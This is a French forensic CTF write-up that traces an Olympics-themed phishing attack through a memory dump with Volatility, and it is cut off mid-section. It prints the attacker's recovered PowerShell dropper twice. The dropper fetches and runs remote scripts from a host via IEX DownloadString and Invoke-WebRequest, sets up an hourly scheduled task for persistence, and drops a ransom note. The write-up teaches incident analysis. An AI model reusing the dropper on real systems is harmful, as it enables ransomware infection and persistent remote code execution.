


# Enquête sur le phishing des JO : Retracer l'attaque

* type: Forensic
* points : 500
* auteur : [Clara Chalumeau aka Clar'hacker](https://www.linkedin.com/in/clara-chalumeau/) 

---


## Partie 1/2

### Synopsis

Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite piegée.

Vous avez pour mission de mener l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié.

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ?

Pour résoudre ce challenge, vous devez répondre aux questions suivantes :

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créé ?

3 - Quel script est lancé par cette scheduled task ?

Format du flag SHLK{'nom-fichier'-'scheduled task-'script'}

Exemple 1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}

### First encounter

Un dump, une capture du bureau, et c'est à nous de jouer. Le système a été compromis, à nous de décrouvrir comment.

L'examen rapide de la capture d'écran donne quelques informations qui nous seront certainement utile plus tard



Cela va tourner autour d'un PDF malveillant, et nous avons la note de rançon, avec ces informations, il est temps de commencer à creuser.

### Méthode 1 full volatility (aka quand on est pas un SoC Analyst, mais que l'on a des idées)

Une des façon de trouver le 1er flag, est de commencer par bien lire ce qui nous est demandé, nous allons donc commencer par rechercher le raccourci malveillant. On sait que sous windows, l'extension sera en .lnk, et grace au screen, on sait que ça sera lié à un PDF. 

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE "*\.pdf\.lnk"
```

La réponse arrive en quelques minutes:

```
0xa70451a45a80.0\Users\clara\Downloads\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk        216
```
Nous avons notre première information. La seconde est un peu plus tricky, mais pas si compliquée à trouver.

Le poste a été chiffré, nous allons donc chercher un script powershell malveillant. Pour cela, nous allons pouvoir nous nous appuyer sur les fichiers EVTX (journaux système Windows) dans notre tâche.

Pour cela, nous allons devoir extraire le fichier qui nous intéresse, nous allons utiliser de nouveau notre ami volatiliy et une petite regex pour trouver ce dont nous avons besoin.

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE ".*powershell.*\.evtx"
```

Le retour arrive rapidement:

```shell
0xa704519a3db0  \Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx    216
```

Une fois la cible trouvée, nous allons devoir l'extraire de la mémoire

```shell
vol -f 1_RESOLU/dump.raw windows.dump --virtaddr 0xa704519a3db0

Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
Cache   FileObject      FileName        Result

DataSectionObject       0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044ea12090.DataSectionObject.Microsoft-Windows-PowerShell%4Operational.evtx.dat
SharedCacheMap  0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044e4f5260.SharedCacheMap.Microsoft-Windows-PowerShell%4Operational.evtx.vacb
```
L'information dont nous avons besoin se situe dans le fichier qui se termine par vacb, un petit passage par evtx_dump pour rendre le fichier lisible, et nous trouvons le script.
```json
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "",
      "ScriptBlockId": "07925adc-3e1c-4463-a0cc-9d12522ebede",
      "ScriptBlockText": "$IP_addr = '172.21.195.17:5000'\r\n\r\n$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"\r\n$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"\r\n$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'\r\n$TaskFile = 'GetFilesInfo.ps1'\r\n\r\n#Get the lure pdf\r\nInvoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer\r\n\r\n# Open the PDF file with the default PDF viewer\r\nStart-Process -FilePath $fakePlaceOffer\r\n\r\n### Schedule task\r\n$taskName = \"IGotYourFileInfo\"\r\n\r\n# Create the scheduled task that get some file information\r\n$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"\r\nschtasks /create /tn $taskName /sc HOURLY /tr $cmd\r\n\r\n#Encrypt some file\r\n\r\npowershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"\r\n\r\n## Change wallpaper\r\n$webClient = New-Object System.Net.WebClient\r\n$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"\r\n$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"\r\n$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)\r\n\r\n## Set the wallpaper\r\n$regKey = \"HKCU:\\Control Panel\\Desktop\"\r\nSet-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath\r\n$wallpaperStyle = \"3\"\r\nSet-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle\r\n$tileWallpaper = \"0\"\r\nSet-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper\r\n\r\n# Forcer l'actualisation du bureau\r\nStart-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait\r\n\r\n## Create text file\r\n$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"\r\nSet-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent\r\n# Open text file\r\nInvoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"\r\n\r\n"
    },
    "System": {
      "Channel": "Microsoft-Windows-PowerShell/Operational",
      "Computer": "DeanGilmor",
      "Correlation": {
        "#attributes": {
          "ActivityID": "3476582E-B7DF-0003-AC7D-7634DFB7DA01"
        }
      },
      "EventID": 4104,
      "EventRecordID": 133,
      "Execution": {
        "#attributes": {
          "ProcessID": 13428,
          "ThreadID": 2576
        }
      },
      "Keywords": "0x0",
      "Level": 3,
      "Opcode": 15,
      "Provider": {
        "#attributes": {
          "Guid": "A0C1853B-5C40-4B15-8766-3CF1C58F985A",
          "Name": "Microsoft-Windows-PowerShell"
        }
      },
      "Security": {
        "#attributes": {
          "UserID": "S-1-5-21-1569816960-1500504362-1823058107-1000"
        }
      },
      "Task": 2,
      "TimeCreated": {
        "#attributes": {
          "SystemTime": "2024-06-07T19:29:08.462113Z"
        }
      },
      "Version": 1
    }
  }
}
```

Le responsable est donc:

```powershell
ScriptBlockText": "$IP_addr = '172.21.195.17:5000'

$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"
$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"
$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'
$TaskFile = 'GetFilesInfo.ps1'

#Get the lure pdf
Invoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer

# Open the PDF file with the default PDF viewer
Start-Process -FilePath $fakePlaceOffer

### Schedule task
$taskName = \"IGotYourFileInfo\"

# Create the scheduled task that get some file information
$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"
schtasks /create /tn $taskName /sc HOURLY /tr $cmd

#Encrypt some file

powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"

## Change wallpaper
$webClient = New-Object System.Net.WebClient
$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"
$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"
$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)

## Set the wallpaper
$regKey = \"HKCU:\\Control Panel\\Desktop\"
Set-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath
$wallpaperStyle = \"3\"
Set-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle
$tileWallpaper = \"0\"
Set-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper

# Forcer l'actualisation du bureau
Start-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait

## Create text file
$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"
Set-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent
# Open text file
Invoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"
```

Voilà, nous avons désormais la totalité des informations pour créer le flag

```
SHLK{Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk-IGotYourFileInfo-GetFilesInfo.ps1}
```

### Méthode 2 on industrialise un peu tout ça (aka on fait chauffer la tronçoneuse préparée hayabusa)

La méthode avec volatility est bien, mais elle est fastidieuse, on doit convertir nos evtx en json, quand on ne sais pas où chercher, cela peut prendre du temps, et s'il existait une alternative ?

Il existe deux outils pour cela, [Chainsaw](https://github.com/WithSecureLabs/chainsaw) et [Hayabusa](https://github.com/Yamato-Security/hayabusa). Ils permetent de parser les logs EVTX sans conversion préalable, et permettent d'autres action Uber cool.

Nous allons utiliser Hayabusa et son options "search". La team a signée son méfait dans le notepad, nous allons pouvoir chercher le mot "HAMOR" dans les logs.

Cette partie se fait une fois que tout les logs ont été extrait et renommé en .evtx


